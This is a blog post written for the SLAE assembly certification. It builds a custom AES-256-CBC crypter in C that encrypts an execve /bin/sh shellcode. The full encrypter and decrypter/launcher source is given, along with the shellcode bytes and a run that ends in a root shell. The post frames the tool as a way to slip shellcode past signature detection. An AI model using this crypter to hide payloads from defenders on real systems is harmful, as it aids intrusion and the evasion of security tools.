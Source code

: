 # Assignment 7 - Custom Crypter

Today we're throwing down the landing gear and finishing up with SLAE! It's been a great ride and I've learned a lot on the journey. With this last assignment the goal is to create a program that encrypts shellcode, and a program that decrypts and runs that shellcode. This would assist if your shellcode was getting flagged, and you weren't able to bypass the signature with the basic polymorphic techniques covered in assignment 6.

## Problem Statement

* Create a custom crypter like the one shown in the "crypters" video
* Feel free to use any existing encryption schema
* Can use any programming language


## AES-CBC

For this challenge, I decided to go with the popular AES-256 encryption schema in CBC mode, and we decided to develop this in C. Since AES-256 is a popular schema, we knew we wouldn't have to reinvent the wheel. So, we grabbed a small portable copy from [kokke's github](https://github.com/kokke/tiny-AES-c). We also used the `execve` shellcode from the course for testing. Let's get started!


#### Compiling Tiny AES

One small step we needed to take in the beginning was to compile our AES library, so that we could use it throughout the rest of the assignment. That was done using the following command:

```bash
$ gcc -Wall -Os -c -o aes.o aes.c
```

On to the crypter!

### Encrypter

The encrypter's job would be to hold known shellcode, and encrypt it with a key given to it by the user. We came up with the implementation below.

**_crypter.c_**

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

// Enabling CBC must be done before including aes.h or at compile-time.
// For compile time, use -DCBC=1
#define CBC 1

#include "aes.h"

// execve /bin/sh
uint8_t shellcode[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void printHex(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        printf("\\x%02X", buffer[i]);
    }
    printf("\n");
}


void encrypt(char* givenKey, size_t size) {
    uint8_t key[32] = { 0 };
    uint8_t iv[]  = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };
    struct AES_ctx ctx;

    printf("\nEncrypting...");

    memcpy(key, givenKey, strlen(givenKey));
    AES_init_ctx_iv(&ctx, key, iv);
    AES_CBC_encrypt_buffer(&ctx, shellcode, size);

    printf("Done!\n");
}


int main(int argc, char* argv[])
{
    size_t shellcodeSize = sizeof(shellcode) - 1; // disregard null terminator
    size_t encryptedSize = (16 - (shellcodeSize % 16) + shellcodeSize); // account for padding
    printf("Original Shellcode:\n");
    printHex(shellcode, shellcodeSize);

    encrypt(argv[1], shellcodeSize);
    printf("\nEncrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    return 0;
}
```

#### Compiling the Crypter

```bash
$ gcc -Wall -Os crypter.c aes.o aes.h -o crypter
```

#### Running the Crypter

```bash
$ ./crypter "brownee and coffee 4 life"
Original Shellcode:
\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62
\x69\x68\x2F\x2F\x2F\x2F\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80

Encrypting...Done!

Encrypted Shellcode:
\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63
\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08
\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40
```


### Decrypter / Launcher

Now that we've obtained our encrypted shellcode, we'll place that in our decrypter, shown below.

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

// Enabling CBC must be done before including aes.h or at compile-time.
// For compile time, use -DCBC=1
#define CBC 1

#include "aes.h"

// encrypted execve /bin/sh
uint8_t shellcode[] = "\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40";

void printHex(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        printf("\\x%02X", buffer[i]);
    }
    printf("\n");
}


void decrypt(char* givenKey, size_t size) {
    uint8_t key[32] = { 0 };
    uint8_t iv[]  = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };
    struct AES_ctx ctx;

    printf("\nDecrypting shellcode...");

    memcpy(key, givenKey, strlen(givenKey));
    AES_init_ctx_iv(&ctx, key, iv);
    AES_CBC_decrypt_buffer(&ctx, shellcode, size);

    printf("Done!\n");
}


int main(int argc, char* argv[])
{
    size_t encryptedSize = sizeof(shellcode) - 1; // disregard null terminator
    printf("Encrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    decrypt(argv[1], encryptedSize);
    printf("\nDecrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    printf("\nLaunching shellcode...\n");
    int (*ret)() = (int(*)())shellcode;
    ret();

    return 0;
}
```

This code takes our encrypted shellcode, and decrypts it using a key given by the user. Then, it calls the decrypted shellcode in order to launch our payload. Let's compile it and give it a shot.

#### Compiling the Decrypter

```bash
$ gcc -Wall -Os decrypter.c aes.o aes.h -o decrypter
```

#### Running the Decrypter

```bash
$ ./decrypter "brownee and coffee 4 life"
Encrypted Shellcode:
\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63
\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08
\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40

Decrypting shellcode...Done!

Decrypted Shellcode:
\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62
\x69\x68\x2F\x2F\x2F\x2F\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

Launching shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
```

Excellent, everything seems to be working, and our payload successfully executed.


## Wrapping Up

Well, SLAE has finally come to an end for me. In all honesty, this was a fantastic course, and I've learned so much from it. If you're thinking of taking it, or you're thinking of taking your OSCE, but aren't sure if you're ready, I absolutely recommend SLAE! ***SPOILER ALERT***, I passed my OSCE on the first try with 12 hours to spare, and I 100% believe that I wouldn't have been able to do it if I had not taken SLAE first. It's been a great way of familiarizing myself with the concepts and fundamentals of assembly in a way that I haven't explored before. Anyways, if you're still with me, thanks for reading along! And until next time, happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
